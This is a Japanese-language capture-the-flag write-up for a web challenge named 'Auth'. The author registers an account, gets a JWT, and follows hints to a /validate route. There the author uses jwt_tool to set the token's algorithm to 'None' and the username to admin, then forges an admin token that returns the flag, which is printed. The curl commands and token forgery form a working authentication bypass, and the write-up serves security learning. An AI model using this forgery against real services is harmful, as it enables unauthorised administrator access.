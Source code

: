 # Auth:WEB:288pts
I just started learning about a new authentication method called JWT. This is my first website with it, could you check if its secure?  

[213.133.103.186:6477](213.133.103.186:6477)  

# Solution
Webサイトのアドレスが渡される。  
アクセスしようとすると、Basic認証がかかっておりログインできない。  
```bash
$ curl http://213.133.103.186:6477 -I
HTTP/1.1 401 Unauthorized
X-Powered-By: Express
WWW-Authenticate: Basic realm="Authorization Required"
Content-Type: text/html; charset=utf-8
Content-Length: 23
ETag: W/"17-68YDcup1nD43NOnf7nEMd8Uly4A"
Date: Sun, 09 Apr 2023 07:16:02 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```
適当なユーザ名とパスワードでログインを試みたところ失敗し、以下のように表示された。  
```bash
$ curl http://213.133.103.186:6477 -H "Authorization: Basic `echo -n 'satoki:satoki'|base64`"
Wrong username or password; register using /register and the username and password params
```
`/register`で登録できるようだ。  
```bash
$ curl 'http://213.133.103.186:6477/register?username=satoki&password=satoki'
User created
```
ユーザ作成が完了したようなので、ログインを再度試みる。  
```bash
$ curl http://213.133.103.186:6477 -H "Authorization: Basic `echo -n 'satoki:satoki'|base64`"
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNhdG9raSIsImlhdCI6MTY4MTAyNDY2OH0.Q5to3cWoxICGvFRVtRP03pJ5Y1mGrIxZfYggMzywxoA
$ echo 'eyJ1c2VybmFtZSI6InNhdG9raSIsImlhdCI6MTY4MTAyNDY2OH0' | base64 -d
{"username":"satoki","iat":1681024668}base64: invalid input
```
ユーザ名が含まれた、jwtが表示された。  
これを用いて、Bearer認証でのログインを試みるが失敗する。  
どうすればよいか分からずいろいろと探しているとレスポンスヘッダに奇妙なものがあることに気付く。  
```bash
$ curl http://213.133.103.186:6477 -H "Authorization: Basic `echo -n 'satoki:satoki'|base64`" -I
HTTP/1.1 200 OK
X-Powered-By: Express
Info: check /info
Content-Type: text/html; charset=utf-8
Content-Length: 132
ETag: W/"84-4iBBJ+cRJUvfEGcDzqX1LGP6GyE"
Date: Sun, 09 Apr 2023 07:19:37 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```
`Info: check /info`なる謎のモノが入っている。  
言われた通り`/info`にアクセスしてみる。  
```bash
$ curl http://213.133.103.186:6477/info -H "Authorization: Basic `echo -n 'satoki:satoki'|base64`"
check the /validate route; use token as the query param
```
`/validate`の`token`クエリパラメータを使えと言われた。  
先ほど得られたjwtを用いてリクエストを送る。  
```bash
$ curl 'http://213.133.103.186:6477/validate?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNhdG9raSIsImlhdCI6MTY4MTAyNDY2OH0.Q5to3cWoxICGvFRVtRP03pJ5Y1mGrIxZfYggMzywxoA'
only the admin account has permissions to access the flag
```
adminのみフラグが得られるようだ。  
ユーザ名を書き換える必要があるため、jwtのよくあるNoneを使った攻撃であると予測する。  
以下の通り[jwt_tool](https://github.com/ticarpi/jwt_tool)を用いる(一部省略)。  
```bash
$ git clone https://github.com/ticarpi/jwt_tool.git
$ cd jwt_tool/
$ python jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNhdG9raSIsImlhdCI6MTY4MTAyNDY2OH0.Q5to3cWoxICGvFRVtRP03pJ5Y1mGrIxZfYggMzywxoA -T
~~~
Token header values:
[1] alg = "HS256"
[2] typ = "JWT"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of alg is: HS256
Please enter new value and hit ENTER
> None
[1] alg = "None"
[2] typ = "JWT"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] username = "satoki"
[2] iat = 1681024668    ==> TIMESTAMP = 2023-04-09 16:17:48 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of username is: satoki
Please enter new value and hit ENTER
> admin
[1] username = "admin"
[2] iat = 1681024668    ==> TIMESTAMP = 2023-04-09 16:17:48 (UTC)
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[5] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
Signature unchanged - no signing method specified (-S or -X)
jwttool_c1d4af93e89d3a85a6478737d5d9167a - Tampered token:
[+] eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjgxMDI0NjY4fQ.Q5to3cWoxICGvFRVtRP03pJ5Y1mGrIxZfYggMzywxoA
```
得られた改竄済みjwtを送信する。  
```bash
$ curl 'http://213.133.103.186:6477/validate?token=eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjgxMDI0NjY4fQ.Q5to3cWoxICGvFRVtRP03pJ5Y1mGrIxZfYggMzywxoA'
bucket{1_l0v3_jwt!!!1!!!!1!!!!!1111!}
```
flagが表示された。  

## bucket{1_l0v3_jwt!!!1!!!!1!!!!!1111!}